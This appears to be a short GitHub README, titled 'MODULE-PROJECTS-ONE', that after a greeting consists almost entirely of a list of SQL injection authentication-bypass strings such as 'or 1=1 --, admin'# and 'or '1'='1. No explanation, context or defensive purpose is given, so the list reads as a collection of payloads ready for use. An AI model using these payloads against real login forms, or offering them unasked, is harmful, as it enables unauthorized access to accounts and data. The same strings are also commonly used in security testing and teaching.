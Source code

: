 # MODULE-PROJECTS-ONE
🎭NICE TO SEE YOU FRIEND🎭

'or 1=1 limit 1 -- -+
admin'#
admin'or'1'='1
admin'or''='1'#
admin'or'' =1 or "='
'or '1=1 limit 1 -- -+
'or '1'='1
'or 'x'='
'or 0=0 --
'or' 0=0 #
'or 1=1 --
'or 'one'='one
'or 1=1-- -




